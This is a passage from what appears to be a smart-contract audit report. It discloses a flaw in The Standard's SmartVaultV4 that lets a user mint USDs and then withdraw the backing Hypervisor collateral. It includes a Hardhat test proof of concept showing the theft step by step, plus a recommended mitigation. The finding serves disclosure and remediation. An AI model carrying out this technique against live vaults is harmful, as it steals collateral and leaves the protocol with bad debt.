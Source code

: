 **Impact:** An attacker can borrow the maximum mintable amount of `USDs` against their deposited yield collateral, then leave their Smart Vault undercollateralised by simply removing the collateral Hypervisor tokens. The attacker receives both the `USDs` and its backing collateral while the protocol is left with bad debt, likely compromising the stability of `USDs` if executed on a large scale or atomically with funds obtained from a flash loan.

**Proof of Concept:** The following test can be added to `SmartVault.js`:

```javascript
it('can steal collateral hypervisor tokens', async () => {
  const ethCollateral = ethers.utils.parseEther('0.1')
  await user.sendTransaction({ to: Vault.address, value: ethCollateral });

  let { collateral, totalCollateralValue } = await Vault.status();
  let preYieldCollateral = totalCollateralValue;
  expect(getCollateralOf('ETH', collateral).amount).to.equal(ethCollateral);

  depositYield = Vault.connect(user).depositYield(ETH, HUNDRED_PC);
  await expect(depositYield).not.to.be.reverted;
  await expect(depositYield).to.emit(YieldManager, 'Deposit').withArgs(Vault.address, MockWeth.address, ethCollateral, HUNDRED_PC);

  ({ collateral, totalCollateralValue } = await Vault.status());
  expect(getCollateralOf('ETH', collateral).amount).to.equal(0);
  expect(totalCollateralValue).to.equal(preYieldCollateral);

  const mintedValue = ethers.utils.parseEther('100');
  await Vault.connect(user).mint(user.address, mintedValue);

  // Vault is fully collateralised after minting USDs
  expect(await Vault.undercollateralised()).to.be.equal(false);

  const hypervisorBalanceVault = await MockUSDsHypervisor.balanceOf(Vault.address);
  await Vault.connect(user).removeAsset(MockUSDsHypervisor.address, hypervisorBalanceVault , user.address);

  // Vault has no collateral left and as such is undercollateralised
  expect(await MockUSDsHypervisor.balanceOf(Vault.address)).to.be.equal(0);
  expect(await Vault.undercollateralised()).to.be.equal(true);

  // User has both the minted USDs and Hypervisor collateral tokens
  expect(await MockUSDsHypervisor.balanceOf(user.address)).to.be.equal(hypervisorBalanceVault);
  expect(await USDs.balanceOf(user.address)).to.be.equal(mintedValue);
});
```

**Recommended Mitigation:** Validate that the asset removed is not a Hypervisor token present in the `hypervisors` array.

If considering adding the Hypervisor tokens as collateral in the `TokenManager`, ensure that they are excluded from [this loop](https://github.com/the-standard/smart-vault/blob/c6837d4a296fe8a6e4bb5e0280a66d6eb8a40361/contracts/SmartVaultV4.sol#L108-L111) within `SmartVaultV4::usdCollateral` and the [pricing calculation](https://github.com/the-standard/smart-vault/blob/c6837d4a296fe8a6e4bb5e0280a66d6eb8a40361/contracts/SmartVaultV4.sol#L131) in `SmartVaultV4::getAssets` is also updated accordingly.
